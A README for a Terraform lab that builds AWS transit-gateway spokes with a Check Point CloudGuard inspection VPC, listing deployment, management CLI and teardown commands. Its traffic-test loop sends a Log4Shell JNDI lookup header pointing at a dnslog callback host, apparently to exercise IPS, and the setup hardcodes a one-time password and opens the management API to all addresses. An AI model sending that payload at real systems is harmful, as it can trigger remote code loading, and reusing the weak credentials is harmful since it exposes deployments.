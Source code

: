 # AWS lab with App spokes, TGW and CHKP VPC with CloudGuard Network Security behind GWLB

```shell
# working folder
cd /workspaces/tf-playground/50-aws-tgw-chkp-vpc

# alias terraform
alias tf=terraform

# bring dependencies - providers, modules, ...
tf init

# bring credentials - e.g. export env vars: AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, AWS_SESSION_TOKEN

# review the code

# do credentials work?
tf plan -target module.env

# step by step deployment (to follow what was build in both code and AWS Console)

# network environment
tf apply -auto-approve -target module.env

# workloads in spokes accessible using SSM
#   used to initiate eggress and E-W traffic
tf apply -auto-approve -target module.instances

# Check Point Management in Inspection VPC
#   shared VPC with securure Internet access and E-W inspection
tf apply -auto-approve -target module.cpman

# Check Point Security Gateways with GWLB in Inspection VPC
#   deploy CGNS behind GWLB into Security (Inspection) VPC
tf apply -auto-approve -target module.cgns

# routing setup
#    route via CGNG thanks to GWLBe
tf apply -auto-approve -target module.routes

# or full deployment - one shot
tf apply -auto-approve

# CP management console
#   lets wait in CPMAN EC2 Instance serial console until ot is ready

# IP and creds for CPMAN cli access
MGMTIP=$(tf output -raw cpman_ip)
echo ssh admin@$MGMTIP -i C:/Users/mkoldov/.ssh/azureshell.key

# === MANAGEMENT CLI ===
#   once Check Point Managemeng server is initialized => 
watch -d api status

# x-chkp-tags	management=CP-Management-gwlb-tf:template=gwlb-configuration:ip-address=private
autoprov_cfg init AWS -mn CP-Management-gwlb-tf -tn gwlb-configuration -otp WelcomeHome1984 -po Standard -cn cpman -r eu-west-1 -iam -ver R81.20

autoprov_cfg set template -tn gwlb-configuration -ia -ips

autoprov_cfg show all

tail -f /var/log/CPcme/cme.log


mgmt_cli -r true set api-settings accepted-api-calls-from 'All IP addresses' --domain 'System Data'; api restart

# create api user
mgmt_cli -r true add administrator name "api" permissions-profile "read write all" authentication-method "api key"  --domain 'System Data' --format json

# add api-key
# https://sc1.checkpoint.com/documents/latest/APIs/index.html#cli/add-api-key~v1.9.1%20
mgmt_cli -r true add api-key admin-name "api"  --domain 'System Data' --format json

tail -f /var/log/CPcme/cme.log

# mgmt ip 10.255.77.227
# cplic - required for IPS!

#connectivity test from spoke hosts
while true; do curl 10.11.10.11 -m1; curl 10.10.10.10 -m1; curl -s -m1 ip.iol.cz/ip/; echo; ping -c1 1.1.1.1; sleep 3; curl -s -m2 ip.iol.cz/ip/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}';  done


# remove
tf destroy -auto-approve -target module.routes
tf destroy -auto-approve -target module.cgns
tf destroy -auto-approve -target module.cpman
tf destroy -auto-approve -target module.instances
tf destroy -auto-approve -target module.env

```

TODO:
- [ ] enable Management API and provision API user
 -[ ] management license?
- [ ] Gaia timezone 
- [ ] diagrams
- [ ] create SSH key with Terraform and add CPMAN login instructions
- [ ] policy made by Terraform
- [ ] E-W and Ingress traffic inspection
- [ ] TF unexpceted replacement - lifecycle / ignore_changes fine tune!


References:
* Inspired by work at https://github.com/aws-samples/aws-network-firewall-terraform/
    * Diagram https://github.com/aws-samples/aws-network-firewall-terraform/blob/main/images/anfw-terraform-sample.jpg

